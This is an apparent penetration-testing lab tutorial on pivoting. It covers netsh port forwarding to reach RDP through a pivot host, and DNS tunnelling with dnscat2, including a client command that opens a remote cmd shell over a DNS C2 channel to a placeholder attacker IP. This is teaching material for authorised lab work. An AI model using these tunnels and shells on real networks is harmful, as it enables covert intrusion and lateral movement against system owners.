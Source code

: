 We can use netsh.exe to forward all data received on a specific port (say 8080) to a remote host on a remote port:
```console
C:\Windows\system32> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=<PIVOT HOST> connectport=3389 connectaddress=<TARGET>
```

We can verify it:
```console
C:\Windows\system32> netsh.exe interface portproxy show v4tov4
```

After configuring the **portproxy** on our Windows-based pivot host, we will try to connect to the 8080 port of this host from our attack host using xfreerdp.

---

# Branching Out Our Tunnels 

## DNS Tunneling with Dnscat2

Dnscat2 is a tunneling tool that uses DNS protocol to send data between two hosts. It uses an encrypted **Command-&-Control** (**C&C** or **C2**) channel and sends data inside TXT records within the DNS protocol. We can install as:
```console
zero@pio$ git clone https://github.com/iagox86/dnscat2.git
zero@pio$ cd dnscat2/server/
zero@pio$ gem install bundler
zero@pio$ bundle install
```

We can then start the dnscat2 server:
```console
sudo ruby dnscat2.rb --dns host=<OUR IP>,port=53,domain=inlanefreight.local --no-cache
```

After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server. We can use their client or the [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell). 
```console
PS C:\target> Import-Module .\dnscat2.ps1
```

After dnscat2.ps1 is imported, we can use it to establish a tunnel with the server running on our attack host:
```console
PS C:\target> Start-Dnscat2 -DNSserver <OUR IP> -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```

We must use the pre-shared secret (`-PreSharedSecret`) generated on the server to ensure our session is established and encrypted. Inside dnscat we can list all our options:
```console
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
```